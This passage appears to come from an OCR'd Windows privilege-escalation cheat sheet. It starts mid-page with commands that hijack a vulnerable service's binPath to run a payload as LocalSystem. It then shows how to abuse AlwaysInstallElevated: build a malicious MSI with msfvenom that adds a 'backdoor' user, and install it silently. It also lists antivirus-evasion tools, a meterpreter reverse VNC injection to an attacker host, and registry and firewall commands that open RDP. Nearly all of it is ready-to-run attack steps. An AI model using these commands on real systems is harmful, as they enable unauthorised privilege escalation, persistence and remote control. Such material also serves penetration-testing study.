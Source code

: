 sc stop <vuln-service>
sc config <vuln-service> binPath= "c:\inetpub\wwwroot\runmsf.exe" depend= "" start= demand obj= ".\LocalSystem" password= ""
sc start <vuln-service>


###Metasploit module:
exploit/windows/local/service_permissions
##AlwaysInstallElevated

AlwaysInstallElevated is a setting that allows non-privileged users the ability to run Microsoft Windows Installer Package Files (MSI) with elevated (SYSTEM) permissions.

Check if these 2 registry values are set to “1”:

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

If they are, create your own malicious msi:

msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi

Then use msiexec on victim to execute your msi:

msiexec /quiet /qn /i C:\evil.msi

###Metasploit module:
exploit/windows/local/always_install_elevated

##Bypassing AV

Use Veil-Evasion
Create your own executable by “compiling” PowerShell scripts
Use Metasploit to substitute custom EXE and MSI binaries. You can set EXE::Custom or MSI::Custom to point to your binary prior to executing the module.
Getting GUI

+ Using meterpreter, inject vnc session:
run post/windows/manage/payload_inject payload=windows/vncinject/reverse_tcp lhost=<yourip> options=viewonly=false
+ Enable RDP:

netsh firewall set service RemoteDesktop enable
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurentControlSet\Control\Terminal Server" /v fDenyTSConnections /t
REG_DWORD /d 0 /f
reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f
sc config TermService start= auto
net start Termservice
netsh.exe
firewall
add portopening TCP 3389 "Remote Desktop"
OR:
netsh.exe advfirewall firewall add rule name="Remote Desktop - User Mode (TCP-In)" dir=in action=allow
program="%%SystemRoot%%\system32\svchost.exe" service="TermService" description="Inbound rule for the
Remote Desktop service to allow RDP traffic. [TCP 3389] added by LogicDaemon's script" enable=yes
profile=private,domain localport=3389 protocol=tcp
netsh.exe advfirewall firewall add rule name="Remote Desktop - User Mode (UDP-In)" dir=in action=allow
program="%%SystemRoot%%\system32\svchost.exe" service="TermService" description="Inbound rule for the
Remote Desktop service to allow RDP traffic. [UDP 3389] added by LogicDaemon's script" enable=yes
profile=private,domain localport=3389 protocol=udp
OR (meterpreter)
run post/windows/manage/enable_rdp
https://www.offensive-security.com/metasploit-unleashed/enabling-remote-desktop/
